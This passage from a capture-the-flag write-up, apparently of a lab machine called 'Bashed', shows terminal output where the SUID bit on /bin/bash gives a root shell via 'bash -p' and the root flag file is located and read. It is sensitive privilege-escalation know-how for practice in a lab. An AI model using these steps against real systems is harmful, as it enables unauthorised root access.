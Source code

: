 For additional info about Setuid [Link](https://www.liquidweb.com/kb/how-do-i-set-up-setuid-setgid-and-sticky-bits-on-linux/)
This will set the SUID bit of /bin/bash and should allow us to run it as root (from any user account). Checked the status of /bin/bash over the course of the next few minutes, was able to successfully call /bin/bash as root:
```bash
scriptmanager@bashed:/$ ls -l /bin/bash
-rwsr-sr-x 1 root root 1037528 Jun 24  2016 /bin/bash
scriptmanager@bashed:/$ /bin/bash -p
bash-4.3# whoami
root
bash-4.3#
```

Ran a search for root.txt, cat'd it out and submitted:
```bash
bash-4.3# find /* -name 'root.txt'
/root/root.txt
bash-4.3# cat /root/root.txt
aaxxxxxxxxxxxxxxxxxxxxxxx
bash-4.3#
```
